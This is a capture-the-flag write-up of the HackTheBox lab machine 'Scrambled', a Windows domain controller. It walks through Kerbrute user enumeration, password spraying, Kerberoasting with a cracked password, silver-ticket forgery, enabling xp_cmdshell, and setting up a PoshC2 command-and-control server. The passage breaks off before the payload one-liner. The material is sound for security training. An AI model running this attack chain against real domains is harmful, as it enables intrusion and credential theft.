Writeup
Overview¶

Scrambled machine was a Domain Controller which attracted me to walk through it. The attack scenario was interesting where it starts from hunting for domain users, pivoting into service accounts, .NET source code review and exploiting application using deserialization vulnerability. The box contains multiple pivoting points to reach the Domain Admin. However, I did not like that the NTLM authentication is disabled in the box, I had multiple issues while using Impacket's tools that took me time to solve those issues. In this blog, I'll demonstrate the attack scenario to Pwn this box with the help of PoshC2 framework. PoshC2 is very powerful tool for red teamers and can be customizable. However, because of the box doesn't have AV solution, I'll use the default profile/configuration of PoshC2.
Machine Info¶
| Operating System | Difficulty | IP |
|---|---|---|
| Windows | Medium | 10.10.11.168 |
Walkthrough¶
Attack Scenario Diagram¶

Recon¶
nmap¶
PORT STATE SERVICE REASON VERSION
53/tcp open domain syn-ack Simple DNS Plus
80/tcp open http syn-ack Microsoft IIS httpd 10.0
| http-methods:
| Supported Methods: OPTIONS TRACE GET HEAD POST
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Scramble Corp Intranet
88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2022-07-15 08:40:57Z)
135/tcp open msrpc syn-ack Microsoft Windows RPC
139/tcp open netbios-ssn syn-ack Microsoft Windows netbios-ssn
389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
445/tcp open microsoft-ds? syn-ack
464/tcp open kpasswd5? syn-ack
593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
1433/tcp open ms-sql-s syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
3269/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername:<unsupported>, DNS:DC1.scrm.local
| Issuer: commonName=scrm-DC1-CA/domainComponent=scrm
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| ms-sql-info:
| 10.10.11.168:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
| p2p-conficker:
| Checking for Conficker.C or higher...
| Check 1 (port 42300/tcp): CLEAN (Timeout)
| Check 2 (port 40536/tcp): CLEAN (Timeout)
| Check 3 (port 9648/udp): CLEAN (Timeout)
| Check 4 (port 31813/udp): CLEAN (Timeout)
|_ 0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2022-07-15T08:41:43
|_ start_date: N/A
By looking into nmap scan results, the ports 53, 389 and 636 are opened this indicates that the host is Domain Controller. Furthermore, the Domain Name is scrm.local and the hostname is DC1.scrm.local we have to add it to our hosts file. Another useful information from nmap results we identified that the port 1433 is open which represent MSSQL service.
Web Enumeration¶
Going through the web page /support.html we will notice an alert which stats the following message:

Below the alert message, there is several web pages we can look into. By navigating into /salesorders.html web page, we will notice a guidance of using Sales Orders App. From the guidance we can see a new port which is 4411.

Running nmap will give us the following results. Nothing interesting beside that the port is open.
nmap 10.10.11.168 -sC -sV -vv -p 4411
PORT STATE SERVICE REASON VERSION
4411/tcp open found? syn-ack
| fingerprint-strings:
| DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
| SCRAMBLECORP_ORDERS_V1.0.3;
| FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions:
| SCRAMBLECORP_ORDERS_V1.0.3;
|_ ERROR_UNKNOWN_COMMAND;
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.91%I=7%D=7/15%Time=62D1288A%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.
SF:3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_ORDER
SF:S_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDERS_
SF:V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNO
SF:WN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TLS
SF:SessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SCRAM
SF:BLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_V1\
SF:.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(FourO
SF:hFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND
SF:;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_
SF:COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%
SF:r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,35,"
SF:SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LANDesk
SF:-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r
SF:\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D,"S
SF:CRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORDERS
SF:_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r
SF:(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n");
Also, we can run nc.
nc 10.10.11.168 4411
SCRAMBLECORP_ORDERS_V1.0.3;
test
ERROR_UNKNOWN_COMMAND;
Going back to web pages, the web page /passwords.html disclose useful information. Which is: we will reset your password to be the same as the username.

So now we know that if we attempt to reset a user password, the new password will be same as the username. From this information, let's try to hunt for users.
User Enumeration¶
Because it is Domain Controller we can enumerate valid Domain Users using Pre-Authentication.
Note
The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can only be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to ASREProast. For further reading refer to this resource.
To enumerate the valid Domain Users I'll use Impacket's GetNPUsers and shorter wordlist that can be found here. We can also use the wordlist /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt but will take too much of time. To enumerate the valid Domain Users run the following command:
GetNPUsers.py scrm.local/ -no-pass -dc-ip 10.10.11.168 -usersfile A-ZSurnames.txt

Alternatively, we can use Kerbrute which is faster because it is based in Golang. Kerbrute can be downloaded from here
./kerbrute userenum -d scrm.local A-ZSurnames.txt --dc dc1.scrm.local
__ __ __
/ /_____ _____/ /_ _______ __/ /____
/ //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
/ ,< / __/ / / /_/ / / / /_/ / /_/ __/
/_/|_|\___/_/ /_.___/_/ \__,_/\__/\___/
Version: v1.0.3 (9dad6e1) - 07/15/22 - Ronnie Flathers @ropnop
2022/07/15 05:36:26 > Using KDC(s):
2022/07/15 05:36:26 > dc1.scrm.local:88
2022/07/15 05:36:27 > [+] VALID USERNAME: ASMITH@scrm.local
2022/07/15 05:38:25 > [+] VALID USERNAME: JHALL@scrm.local
2022/07/15 05:38:39 > [+] VALID USERNAME: KSIMPSON@scrm.local
2022/07/15 05:38:47 > [+] VALID USERNAME: KHICKS@scrm.local
2022/07/15 05:40:25 > [+] VALID USERNAME: SJENKINS@scrm.local
Password Spray¶
After finding valid Domain Users, let's conduct password spray attacks using the username as password for each user. Here we can use smartbrute tool.

Bug
I had an issue during while solving the machine. NTLM authentication is disabled we can use kerberos authentication instead. The issue is when using tools such as crackmapexec or impacket sometime it will fail and does not give us any information.
To solve this issue use -k flag to make use of kerberos authentication.
Enumerate SPNs¶
After obtaining valid creds, we might be able to enumerate SPNs account using Impacket's GetUserSPNs. As I said before the NTLM authentication will not work we should use the flag -k. Hence, I found an issue in GetUserSPNs to solve this issue refer to this link.
GetUserSPNs.py scrm.local/ksimpson:'ksimpson' -dc-ip dc1.scrm.local -request -k
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName Name MemberOf PasswordLastSet LastLogon Delegation
---------------------------- ------ -------- -------------------------- -------------------------- ----------
MSSQLSvc/dc1.scrm.local:1433 sqlsvc 2021-11-03 12:32:02.351452 2022-07-15 04:08:04.045229
MSSQLSvc/dc1.scrm.local sqlsvc 2021-11-03 12:32:02.351452 2022-07-15 04:08:04.045229
[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$031a9fba52ac8c46413a559f05f2fe1f$befe1c8b7246da2c80a057ffeee4503106a0de5bca8f0cc81469e54c69e3be1ee7cbc3567e9990fabd32e653f1d3a4f9787d579b10c30c9913210a5452ed611721c44022973ba13731d075903a34d5ddca25a73067cd2013922cd89f6488c3af107775808b9b98d9f4ae07cf882a566e3c75653fcef9fc1c42b70358da3042992d7e94729a81596c6ef6d9e6ef51805379e7d639be2557117a9d12a84fb0aacb94733a41d26b3ffccc1d47ec4633fcec65557e3aa344a18d196b3cf9309af5f2a9ac1003beb68ff5d8d92da347b482631d3e894bedbbbca179a04ebf08c57d59c0a0a38cea9614d2ac4c23d296a25daf12532baa82239182d6f17fbccf6339576ceb67d14dde62ca081535e7bd50724628237043452619f06384886b32f12081911e929a05e3ec466e8c713186e00d3dc55e7f6f7342c05e314b633f4bd93b0f7fc19a05e23bd8edebfcae94d97379007439cddd73804d26cf525f13fe6f50c0e7c70cd3ebdf40ac9c2ed3a993aee2240bef32dd7fe6dcf0d8993c404eb6b658ba53ab914de5555ed978af147c12e1d3f53ae97185a041a3d7fea1bf89bf19e997ed0937fc1e13ab662734b0ce84b003735ba667bc40b6683c86357645a5a3db70711011776f6c4abf207bfc15630cb6733203fdd7af275791869c8d5388b1805e1eb64820da7cdac9d7333a49fc55b48b8bced8ad2d0b808b193f03279b40204a88e212c6b67c7027384b41150a8d794672aa6951c604f2d2f0c205365a20c7e16091ab51cdc80ab24373e4a76a43bef9094eae1560f0c6a167fc7a8b221cd317781a62c4d92b4f5e64c0de5ea8cefaf2db02d26575006750ceea095ec67af0630df7d2415fb77bdf782b2c5c37bbb80237afb031e5f234ed8f6b855c69fdfa0311c05cdd45d8c55817e17183c082f9094f6b36e908f1e5ab5d1dea8b6b182b0c1261bacaa4750042d0ee9cf6612b51013e0b7cfa05fa2cf8876a91698e652e36d374299ff22c98521c73bc46b9b4c8368a70cb6c33934fa0bcbc75bbd145dde1201f91f8465b8605bdbab21364b8dd60b1c00c63f7a3c09a6b5d2bbce1874a34289a47b627e81f220a506fcee5da9173b4d0b44cbc6bfea99e0704345a617ad48ce60b8a4578261d069995888de9a587220c5ee60757c5e4a7b1551349299dab8f084c21a8d85ed896f886c8087ece4e0ba3ceeef0a81527d48f6410c90147dd2b424cfb9283814210f697f9a71e08b5e2a942c814b8007f8b2e893527f0be18313cc11515d600c7945b66a6db9d90189d03d0560cb6f0bd146b151e88fd6dfedd6f858f39be7a00b7b5b9369a9f5bb31b6189a76e4fa3b0ee891409776f171f4382c95a3d9ed6ef815e274015daaae6045a674ef481e0aef48b805ab3ef5c1c42bcea8562c28cdbe466dcdb4cc379ae998a4c01378c42a5651f
Now we retrieve the TGS of the SPN account sqlsvc, we can use hashcat to crack the TGS ticket.
hashcat -a 0 -m 13100 sqlsvc-spn /usr/share/wordlists/rockyou.txt --force
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$031a9fba52ac8c46413a559f05f2fe1f$befe1c8b7246da2c80a057ffeee4503106a0de5bca8f0cc81469e54c69e3be1ee7cbc3567e9990fabd32e653f1d3a4f9787d579b10c30c9913210a5452ed611721c44022973ba13731d075903a34d5ddca25a73067cd2013922cd89f6488c3af107775808b9b98d9f4ae07cf882a566e3c75653fcef9fc1c42b70358da3042992d7e94729a81596c6ef6d9e6ef51805379e7d639be2557117a9d12a84fb0aacb94733a41d26b3ffccc1d47ec4633fcec65557e3aa344a18d196b3cf9309af5f2a9ac1003beb68ff5d8d92da347b482631d3e894bedbbbca179a04ebf08c57d59c0a0a38cea9614d2ac4c23d296a25daf12532baa82239182d6f17fbccf6339576ceb67d14dde62ca081535e7bd50724628237043452619f06384886b32f12081911e929a05e3ec466e8c713186e00d3dc55e7f6f7342c05e314b633f4bd93b0f7fc19a05e23bd8edebfcae94d97379007439cddd73804d26cf525f13fe6f50c0e7c70cd3ebdf40ac9c2ed3a993aee2240bef32dd7fe6dcf0d8993c404eb6b658ba53ab914de5555ed978af147c12e1d3f53ae97185a041a3d7fea1bf89bf19e997ed0937fc1e13ab662734b0ce84b003735ba667bc40b6683c86357645a5a3db70711011776f6c4abf207bfc15630cb6733203fdd7af275791869c8d5388b1805e1eb64820da7cdac9d7333a49fc55b48b8bced8ad2d0b808b193f03279b40204a88e212c6b67c7027384b41150a8d794672aa6951c604f2d2f0c205365a20c7e16091ab51cdc80ab24373e4a76a43bef9094eae1560f0c6a167fc7a8b221cd317781a62c4d92b4f5e64c0de5ea8cefaf2db02d26575006750ceea095ec67af0630df7d2415fb77bdf782b2c5c37bbb80237afb031e5f234ed8f6b855c69fdfa0311c05cdd45d8c55817e17183c082f9094f6b36e908f1e5ab5d1dea8b6b182b0c1261bacaa4750042d0ee9cf6612b51013e0b7cfa05fa2cf8876a91698e652e36d374299ff22c98521c73bc46b9b4c8368a70cb6c33934fa0bcbc75bbd145dde1201f91f8465b8605bdbab21364b8dd60b1c00c63f7a3c09a6b5d2bbce1874a34289a47b627e81f220a506fcee5da9173b4d0b44cbc6bfea99e0704345a617ad48ce60b8a4578261d069995888de9a587220c5ee60757c5e4a7b1551349299dab8f084c21a8d85ed896f886c8087ece4e0ba3ceeef0a81527d48f6410c90147dd2b424cfb9283814210f697f9a71e08b5e2a942c814b8007f8b2e893527f0be18313cc11515d600c7945b66a6db9d90189d03d0560cb6f0bd146b151e88fd6dfedd6f858f39be7a00b7b5b9369a9f5bb31b6189a76e4fa3b0ee891409776f171f4382c95a3d9ed6ef815e274015daaae6045a674ef481e0aef48b805ab3ef5c1c42bcea8562c28cdbe466dcdb4cc379ae998a4c01378c42a5651f:Pegasus60
We cracked sqlsvc's password which is: Pegasus60. As seen previously the service account sqlsvc is allowed to access MSSQL service.
Enumerate Shares¶
Because of NTLM authentication is disabled we will use kerberos as authetication protocol. To do this, we can export user's ticket using Impacket's GetTGT:
getTGT.py scrm.local/ksimpson:'ksimpson'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Saving ticket in ksimpson.ccache
The Domain User ksimpson's ticket is exported in the file ksimpsone.ccache. Then, we have to save the exported ticket in the variable KRB5CCNAME in order to use the flag -k.
export KRB5CCNAME='ksimpson.ccache'
Now we can access shared folders for the Domain User ksimpson:
impacket-smbclient scrm.local/ksimpson@dc1.scrm.local -k -no-pass
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
# use public
# ls
drw-rw-rw- 0 Thu Nov 4 18:23:19 2021 .
drw-rw-rw- 0 Thu Nov 4 18:23:19 2021 ..
-rw-rw-rw- 630106 Fri Nov 5 13:45:07 2021 Network Security Changes.pdf
# get Network Security Changes.pdf
# exit
From Public shared folder we identify a document that contains:

After reading the letter we verified that the NTLM authentication is disabled in the machine.
Access MSSQL¶
What we can do now is access MSSQL service using sqlsvc service account via kerberos authentication. To do that, first we have to request for Ticket-Granting Service (TGS) ticket that will allows us to access the MSSQL service, or let's say we conduct silver ticket attack. Before we do that, we have to know SID of the domain. We can run SecretDump with the flag -debug:
secretsdump scrm.local/ksimpson@dc1.scrm.local -k -no-pass -debug
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[+] Impacket Library Installation Path: /home/kali/.local/lib/python3.9/site-packages/impacket
[+] Using Kerberos Cache: ksimpson.ccache
...
[+] Calling DRSCrackNames for S-1-5-21-2743207045-1827831105-2542523200-500
...
From the SecretDump output, the SID for the Domain SCRM.LOCAL is: S-1-5-21-2743207045-1827831105-2542523200. I removed 500 because it is represents the Domain Administrator.
Furthermore, to conduct the attack the NTLM hash of the service account sqlsvc is required. We can convert the password of the service account sqlsvc to NTLM hash using Python.
import hashlib, binascii
hash = hashlib.new('md4', "Pegasus60".encode('utf-16le')).digest()
print(binascii.hexlify(hash))

sqlsvc NTLM hash is: b999a16500b87d17ec7f2e2a68778f05
Now we will use Impacket's ticket to generate TGS that will allow us to access MSSQL service:
ticketer.py -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -nthash b999a16500b87d17ec7f2e2a68778f05 -domain scrm.local -spn MSSQLSvc/dc1.scrm.local administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for scrm.local/administrator
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in administrator.ccache
The TGS ticket saved in the file administrator.ccache we have to save it in the variable KRB5CCACHENAME:
export KRB5CCNAME='administrator.ccache'
Now we can access MSSQL:
impacket-mssqlclient dc1.scrm.local -dc-ip 10.10.11.168 -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC1): Line 1: Changed database context to 'master'.
[*] INFO(DC1): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL>
After obtaining access into MSSQL, the first thing we can do is enable xp_cmdshell to allow us to execute commands:
SQL> enable_xp_cmdshell
[*] INFO(DC1): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(DC1): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL>
disable_xp_cmdshell enable_xp_cmdshell exit help lcd shell xp_cmdshell
SQL> xp_cmdshell whoami
output
--------------------------------------------------------------------------------
scrm\sqlsvc
NULL
SQL>
Configuring PoshC2¶
First of all, create a new project and name it as you want. I'll name it as htb.
posh-project htb
Then, configure the newly created profile.
posh-config
Go to the 14th line and point the value of PayloadCommsHost to your VPN IP.
PayloadCommsHost: "https://<your_vpn_ip>"

Start the PoshC2 server by typing
sudo posh-server
In another windows connect the team server
posh -u user1

Now we have two windows. At the left is the team server and at the right is the user terminal. To make use of the C2 we should drop our beacon or payload into the box usually we have command execution in the box. There is a lots of payloads types that PoshC2 generates such as Powershell reverse shell, Dlls,EXEs, Macros, DotNet2JS or even HTAs which can be used in phishing campaigns.
Obtaining Access¶
As I said PoshC2 have generated several payloads types, as demonstration we can use powershell oneliner. Run this command in MSSQL.
